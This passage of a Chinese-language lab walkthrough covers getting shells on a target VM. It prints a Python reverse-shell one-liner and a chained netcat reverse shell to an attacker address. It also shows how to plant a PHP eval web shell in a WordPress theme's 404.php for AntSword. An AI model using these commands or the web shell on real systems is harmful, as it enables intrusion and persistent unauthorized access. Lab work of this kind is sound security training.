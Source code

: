 

### 使用Python

在前几次的打靶过程，我们已经知道了使用 python 也能反弹 Shell 这时候我们就可以尝试一下使用 Python 来进行反弹Shell 我们先确认一下靶机环境中是否存在 Python环境,经过一定的尝试，发现目标靶机内存在 python3 的环境
![20220508_0131.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/8ecf2330860e9c38448e9aa8a9dd60f7.png)

这时候我们就可以通过上传下面的代码来进行反弹 Shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

<font color="red" face=Monaco size=3> 使用 `subprocess()`函数获取 Shell 可能会出现一些终端格式问题,从而导致后续升级 Shell 失败</font>

在上传前记得先在攻击机上监听对应端口

![20220508_0136.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/e4ed9d6d11c9fc750664010d15c39c95.png)
成功使用Python获得Shell


### 使用 NC

使用 NC串联的方式来反弹Shell 前几次都进行过详细的介绍与实践，这边就不在赘述了，对该技术还不太了解的，可以去阅读我前几篇博文

![20220508_0130.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/f9f7b830009f3b03d445318d5581a4d0.png)

```bash
nc 10.0.2.7 3333 | /bin/bash | nc 10.0.2.7 4444
```

### 使用AntSword

<font color="red" face=Monaco size=3> 使用 AntSword 来反弹Shell 在这个靶机环境中我们需要以下条件:</font>
 我们已经获得了一个基本Shell,并对该 Shell 进行了升级,能使用 vim 和 自动补全

首先我们根据网页使用的主题样式来找到对应的目录下,并修改该目录下的 `404.php` 而这台靶机的对应的主题目录在 :

`/var/www/html/wordpress/wp-content/twentytwentyone` 

![20220508_0202.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/324195407ad3f6db5470cc0959054800.png)

![20220508_0230.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/d3a5efe4463bde4f96e47327c92197fd.png)


然后在 该文件内添加一句话木马
```php
eval($_POST['BusyToLive']);
```
![20220508_0233.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/3fa7a7d0b4f02893361d9a6cd1ef2565.png)

这时我们就可以使用蚁剑来测试我们添加的一句话木马是否成功生效
